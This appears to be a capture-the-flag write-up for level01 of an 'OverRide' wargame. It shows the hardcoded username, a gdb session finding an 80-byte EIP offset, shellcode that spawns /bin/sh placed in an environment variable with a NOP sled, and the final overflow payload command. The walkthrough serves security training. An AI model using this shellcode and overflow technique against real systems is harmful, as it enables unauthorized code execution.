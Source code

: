 # level01 

level01 is very similar to many Rainfall levels. 

We have three functions: `main`, `verify_user_name`, `verify_user_pass`. 

The program looks like a simple login interface. 
First, we enter our username, then our password. 
To find the username, just look in the `verify_user_name` function to find it: "dat_wil."

For the password it's more complex. In fact, we see the following condition: 
```c
if ((local_14 == 0) || (local_14 != 0)) 
{
      puts("nope, incorrect password...");
      iVar1 = 1;
}
```
Above all, even if you enter the right password, there's no way to execute a shell or get the token for the next level. 
One thing we can do, however, is overwrite the EIP. 
To do this, simply find our offset by entering a buffer overflow pattern when entering the password: 
```
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
And we get it : 80.

All we need to do is export our shellcode to our :
```bash
export SHELLCODE=$(python -c 'print "\x90"*1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

Once this is done, we need to take an address in the middle of our nopslide:
```
(gdb) x/10s *((char **)environ)
0xffffd4e0: "SHELLCODE=\220\220\220\220\220 [...]"
[...]
0xffffd738: "\220\220\220\220\220\220\220 [...]"
^^^^^^^^^^
```
Here I've chosen the following address: 0xffffd738.
And we have everything we need to place our order:
```bash
level01@OverRide:~$ python -c 'print "dat_wil" + "\n" + 80*"A" + "\xff\xff\xd7\x38"[::-1]' > /tmp/1
level01@OverRide:~$ cat /tmp/1 - | /home/users/level01/level01
```

That's it!

(Functional shellcode : https://shell-storm.org/shellcode/files/shellcode-575.html)
